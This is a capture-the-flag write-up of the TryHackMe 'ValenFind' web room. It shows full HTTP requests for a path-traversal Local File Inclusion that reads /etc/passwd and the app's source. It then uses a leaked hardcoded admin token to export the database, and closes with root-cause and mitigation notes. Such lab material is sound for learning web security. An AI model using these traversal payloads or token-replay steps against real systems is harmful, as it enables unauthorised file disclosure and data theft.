**Platform:** TryHackMe
**Category:** Web
**Difficulty:** Easy
**Date:** 2026-11-19

ValenFind is a good room. It starts as a plain-looking dating site but hides a classic Local File Inclusion in a "dynamic theme" feature. I turned that LFI into full source code disclosure, read the app's secrets, and used a leaked admin token to dump the entire database and grab the flag.

## 🎯 Objective

Enumerate the ValenFind web app, find and exploit the vulnerability, and recover the flag hidden in the application's data.

## 🔍 Recon & Analysis

I started with a ping and an `nmap` scan against the target.

```bash
ping -c 3 10.80.161.7
nmap 10.80.161.7
```

The scan showed only two open ports:

```text
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```



Port 5000 is a common Flask development port, so I guessed an HTTP service was running there and browsed to `http://10.80.161.7:5000/`. It loaded a dating site called **ValenFind**.



I did the usual quick checks first and found nothing useful:

- `robots.txt` returned a 404 Not Found.
- The page source had no hidden comments or secret text.
- There were no hidden elements on the page.
- Running `gobuster` (directory brute force) turned up nothing special.



So I registered an account to get past the login wall. I used `admin` / `admin` as the username and password.



Once I was logged in and browsing profile pages, I noticed the profile images and layout loaded slightly late, as if something was being fetched on the fly. That hinted at dynamic server-side processing, so I opened the page source to look closer.



In the source I found a theme loader that fetches a layout file by name through a URL parameter:

```javascript
function loadTheme(layoutName) {
    // Feature: Dynamic Layout Fetching
    fetch(`/api/fetch_layout?layout=${layoutName}`)
        .then(r => r.text())
        .then(html => {
            const bioText = "I keep the database secure. No peeking.";
            const username = "cupid";
            let rendered = html.replace('__USERNAME__', username)
                               .replace('__BIO__', bioText);
            document.getElementById('bio-container').innerHTML = rendered;
        })
}
```

That `?layout=` parameter is the interesting part. The server takes a filename from the user and loads it. This is exactly the shape of a Local File Inclusion / path traversal bug.



## 💥 Exploitation

**1. Confirm the LFI with a path traversal to `/etc/passwd`.**

I used the standard traversal test, climbing enough directories to reach the filesystem root:

```http
GET /api/fetch_layout?layout=../../../../../../../etc/passwd HTTP/1.1
Host: 10.80.175.194:5000
```

It worked and returned the contents of `/etc/passwd`, confirming the LFI:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```



**2. Find the base directory the loader reads from.**

To understand how the parameter is handled, I requested a file that does not exist:

```http
GET /api/fetch_layout?layout=neverexit124.txt HTTP/1.1
Host: 10.81.167.143:5000
```

The error message leaked the full base path the loader uses:

```text
Error loading theme layout: [Errno 2] No such file or directory:
'/opt/Valenfind/templates/components/neverexit124.txt'
```



So the loader reads from `/opt/Valenfind/templates/components/`. I also confirmed the default theme just contains placeholder strings:

```http
GET /api/fetch_layout?layout=theme_classic.html HTTP/1.1
```

It returned a template with `__USERNAME__` and `__BIO__` placeholders, matching the client-side `replace()` logic I saw earlier.



**3. Read the application source code.**

Now that I knew the base directory, I worked out where the main app file would be. In a Flask + Jinja2 project, `templates/components/` is a standard convention, so the app lives a couple of levels up from that folder. The main file is usually named `app.py`, `main.py`, or `server.py`. I tried `app.py` with the right number of `../` steps:

```http
GET /api/fetch_layout?layout=../../app.py HTTP/1.1
```

That returned the full source of `app.py`. (A single `../app.py` failed; two levels up resolved correctly from `templates/components/`.)



Reading the source, two things stood out. First, a hardcoded admin API key and database name:

```python
ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
DATABASE = 'cupid.db'
```

Second, an admin-only route that exports the whole database when you send the right token in a custom header:

```python
@app.route('/api/admin/export_db')
def export_db():
    auth_header = request.headers.get('X-Valentine-Token')
    if auth_header == ADMIN_API_KEY:
        try:
            return send_file(DATABASE, as_attachment=True,
                             download_name='valenfind_leak.db')
        except Exception as e:
            return str(e)
    else:
        return jsonify({"error": "Forbidden",
                        "message": "Missing or Invalid Admin Token"}), 403
```



**4. Use the leaked token to dump the database.**

I captured a request in Burp Suite, sent it to Repeater, and changed it to hit the export route with the admin token in the `X-Valentine-Token` header:

```http
GET /api/admin/export_db HTTP/1.1
Host: 10.80.175.194:5000
X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate
Referer: http://10.80.175.194:5000/login
Connection: close
Cookie: session=eyJsaWtlZCI6W10sInVzZXJfaWQiOjksInVzZXJuYW1lIjoiYWRtaW4ifQ.av8nCw.U-34WzpFzINCeKBIDU-IzsU778Q
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The server responded with `200 OK` and streamed back the raw SQLite database as an attachment (`valenfind_leak.db`):

```http
HTTP/1.1 200 OK
Content-Disposition: attachment; filename=valenfind_leak.db
Content-Type: application/octet-stream
Content-Length: 16384
```



Reading through the SQLite data in the response, the flag was right there in the `cupid` user's record:

```text
THM{v1be_cOding_1s_nOt_my_cup_Of_t3a}
```



## 🧠 Root Cause

The `/api/fetch_layout` endpoint takes a user-controlled `layout` parameter and uses it directly to open a file, with no sanitisation against `../` path traversal. That single flaw let me read any file on the system, including the app's own source code. Reading the source handed me a hardcoded admin API key (`CUPID_MASTER_KEY_2024_XOXO`) and the location of an admin route that exports the full database to anyone who presents that key. LFI plus hardcoded secrets plus a secret-gated export route chained together into a full database compromise.

## 🛡️ Mitigation

- **Never pass user input straight to a file open.** Whitelist allowed theme names and map them to fixed server-side paths instead of accepting arbitrary filenames.
- **Normalise and validate paths.** Reject any input containing `../`, resolve the final path, and verify it stays inside the intended directory.
- **Don't leak internal paths in errors.** The "No such file or directory" message disclosed `/opt/Valenfind/templates/components/`, which made source-code recovery trivial.
- **Don't hardcode secrets in source.** Keep API keys out of the code and in environment variables or a secrets manager, and rotate anything that leaks.
- **Protect admin/export routes properly.** A single static header token is not real authentication; use a proper authenticated, authorised session and rate-limited, logged access.

## 📝 Key Takeaways

- A slight loading delay on dynamic content is a good tell to check the page source for server-side fetch parameters.
- The classic `../../../../../../../etc/passwd` test is still the fastest way to confirm an LFI.
- Requesting a non-existent file can leak the exact base directory, which turns blind traversal into precise source-code reading.
- Knowing framework conventions (Flask/Jinja2 `templates/components/`, `app.py`) helps you guess the right path to the main source file quickly.
- Source code disclosure is rarely the end goal; it is a stepping stone to secrets like API keys and hidden admin routes.

## 🔧 Tools Used

- `nmap` for port and service discovery
- Firefox + view-source for finding the theme loader
- `gobuster` for directory brute forcing (no useful hits here)
- Burp Suite (Proxy + Repeater) to replay the export request with the admin token
